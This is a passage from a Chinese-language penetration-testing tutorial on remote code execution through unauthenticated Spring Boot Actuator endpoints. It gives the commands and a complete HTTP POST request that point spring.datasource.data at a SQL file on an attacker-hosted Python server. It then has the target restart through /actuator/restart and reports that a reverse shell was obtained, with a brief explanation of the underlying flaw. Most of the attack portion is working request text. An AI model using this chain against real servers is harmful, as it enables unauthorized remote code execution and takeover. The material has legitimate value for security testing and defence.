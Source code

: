 

使用python开启http服务

```
python2  -m    SimpleHTTPServer    8080
```



POST方式构造请求数据包对/actuator/env端点进行请求，设置spring.datasource.data为前面开启http服务的example.sql的url地址

请求报文如下:

```
POST /actuator/env HTTP/1.1
Host: 192.168.233.242:9096
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 83

{"name":"spring.datasource.data","value":"http://192.168.233.242:8080/example.sql"}
```

![image-20210831171742647](Spring Boot Actuator未授权访问利用实战利用.assets/image-20210831171742647.png)



在调用/actuator/restart端点进行重启springboot项目

![image-20210831173855310](Spring Boot Actuator未授权访问利用实战利用.assets/image-20210831173855310.png)



重启springboot后反弹shell成功

![image-20210830181954887](Spring Boot Actuator未授权访问利用实战利用.assets/image-20210830181954887.png)



##### 利用原理

- 目标机器可以通过 spring.datasource.data 属性来设置 jdbc DML sql 文件的 URL 地址
- restart 重启应用后，程序会请求设置的 URL 地址
- spring-boot-autoconfigure` 组件中的 `org.springframework.boot.autoconfigure.jdbc.DataSourceInitializer.java` 文件代码逻辑中会使用 `runScripts` 方法执行请求 URL 内容中的 h2 database sql 代码，造成 RCE 漏洞

详细漏洞分析参见如下；

[repository/springboot-restart-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-restart-rce)



#### 2.8.h2 database console JNDI RCE
